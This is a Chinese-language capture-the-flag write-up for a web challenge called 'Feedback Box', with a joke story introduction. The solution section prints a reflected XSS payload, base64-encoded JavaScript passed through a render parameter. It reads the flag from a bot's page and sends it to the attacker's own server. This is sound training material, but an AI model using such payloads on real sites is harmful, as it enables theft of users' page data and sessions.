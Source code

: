 # Feedback Box

**Author:** gbljdgb(Xp0int)

**Difficulty:** Normal

**Category:** Web

## 题目描述

小 T 一走进 CTF 赛场，所有的选手便都看着他笑，有的叫道，“小 T ，你又来发 XSS 了！”他不回答，对旁边的队友说，“我要在这个输入框里输入 `<script>alert('XSS攻击成功！')</script>`，然后提交表单。”他们又故意地高声嚷道，“你一定又在做违规操作了！”小 T 睁大眼睛说，“你怎么这样凭空指责人呢？”

“什么违规操作？我昨天亲眼见你利用 XSS 漏洞攻击了某个网站，被管理员警告了。”小 T 便涨红了脸，额上的青筋条条绽出，争辩道，“XSS 攻击不能算违规操作，XSS 攻击！黑客的事，能算违规操作么？”

## 题目解析

**暴露端口：`80`**

XSS 获取 bot 页面上的 flag

payload 如下:

以下 js 进行 base64 编码

```javascript
var flag = document.getElementsByTagName("li")[0].innerHTML;
location.href = "http://vps:port/?" + flag;
```

`http://ip:port/render?word=<script>eval(atob('{base64-payload}'));</script>`

然后在自己的 vps 机器上监听端口，获取 flag

![](https://s1.ax1x.com/2023/03/22/ppay1hD.png)
